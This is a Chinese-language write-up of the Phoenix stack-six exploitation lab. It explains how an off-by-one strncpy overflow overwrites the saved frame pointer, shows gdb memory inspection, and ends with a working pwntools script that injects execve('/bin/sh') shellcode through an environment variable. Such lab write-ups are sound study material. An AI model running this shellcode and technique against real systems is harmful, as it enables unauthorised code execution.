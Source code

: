 ```yaml
---
title: "[pwn笔记3]stack-six(phoenix)"
urlname: "[pwn笔记3]"
tags: [stack, pwn]
date: April 30, 2023 10:11 PM
---
```


## 听说把这段写进~/.gdbinit里面会让栈的情况更加真实（在调试的时候）

（参考[https://n1ght-w0lf.github.io/binary exploitation/stack-six/](https://n1ght-w0lf.github.io/binary%20exploitation/stack-six/)）

```bash
unset env LINES
unset env COLUMNS
set env _ /opt/phoenix/amd64/stack-six
```

## 然后这是本题源码

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

## 理论

其中greet函数有两点错误：

- strncpy函数不会自动在末尾添加\0，而strdup是根据\0来判断结尾的

- strncpy的起始地址是buffer + GREET的长度，但复制长度确是maxSize，导致了末尾有个跟GREET一样长的区域可以溢出（好像减了1）。

调试一下发现，覆盖不到返回地址，但是可以覆盖到压进栈里的rbp的最后两位。

众所周知（不知道的看这个<https://zhuanlan.zhihu.com/p/27339191>），进入函数时会执行：

```nasm
call xxx
;相当于
;push $+1
;jmp xxx
push rbp
mov rbp, rsp
sub rsp, xxx
```

而函数返回时执行的

```nasm
leave
ret
```

相当于

```nasm
mov rsp, rbp
pop rbp
pop rip
```

当我们把greet函数栈里面存着的（前）rbp改为了x。

那么`*x`就会变成main函数的栈底，`*x+8`就会变成main函数的返回地址。

## 理论存在，实践开始

gdb调试一下，能改的范围在：0x7fffffffe500~0x7fffffffe5ff

用这个命令看看这个范围里都有什么东西

```
x/32xg 0x00007fffffffe500
```

顺便确定一下我们输入的东西在哪。（注意不在栈的范围的东西不能要了（存疑），所以我们搜环境变量）

```
(gdb) grep ExploitEducation=
[+] Searching 'ExploitEducation=' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffeee5 - 0x7fffffffef1c  →   "ExploitEducation=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
```

去掉开头，确定我们输入的范围

```
>>> hex(0xeee5+len("ExploitEducation="))
'0xeef6'
>>> hex(0xeee5+126)
'0xef63'
```

回到之前看的范围（好像这样写顺序不太对，不管了）

`0x7fffffffe5c8`里正好是`0x00007fffffffeef6`，你说巧不巧

```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
shellcode = b'\x90'*20
shellcode += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
shellcode += b"A"*(126-len(shellcode))+b'\xc0'

sh = shell.run("/opt/phoenix/amd64/stack-six", env={"ExploitEducation": shellcode})
print(sh.recvline())
sh.interactive()
```

好了。

![结果](%5Bpwn%E7%AC%94%E8%AE%B03%5D%2073a412be24d94419b5e23f937cfdf3af/2023-05-01-22-22-48-image.png)
